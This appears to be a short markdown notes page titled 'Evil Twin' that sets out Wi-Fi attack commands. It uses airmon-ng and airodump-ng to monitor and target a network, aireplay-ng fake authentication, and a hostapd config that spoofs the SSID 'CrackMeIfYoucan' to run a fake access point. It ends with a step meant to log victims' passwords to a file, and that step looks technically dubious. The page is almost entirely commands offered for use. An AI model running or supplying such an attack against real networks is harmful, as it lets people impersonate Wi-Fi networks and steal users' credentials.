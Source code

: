 ```yaml
---
title: Evil Twin
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: ""
  description: ""
  canonical: ""
  robots: ""
  noindex: false
---
```

Stoping NetworkManager:

```sh
airmon-ng start wlp0s20f3
airmon-ng check kill
```

- Capture mac address with AiroDump : 
```sh
airodump-ng wlp0s20f3mon
```

- Attack : 
```sh
airodump-ng --bssid WIFI -w capture wlp0s20f3mon
aireplay-ng --fakeauth 0 -e "CrackMeIfYoucan" -a 1A:C9:8A:4E:A9:BD wlp0s20f3mon
```

Or :

- Configure hostapd.conf

```sh
sudo nano hostapd.conf  

interface=wlp0s20f3mon 
driver=nl80211 
ssid=CrackMeIfYoucan
hw_mode=g 
channel=6 
wpa=2 
wpa_passphrase=easy 
```

- Start the Fake AP
 ```sh
sudo hostapd hostapd.conf 
```

- Capture Password Entries
```sh
hostapd hostapd.conf | tee captured_passwords.txt
```
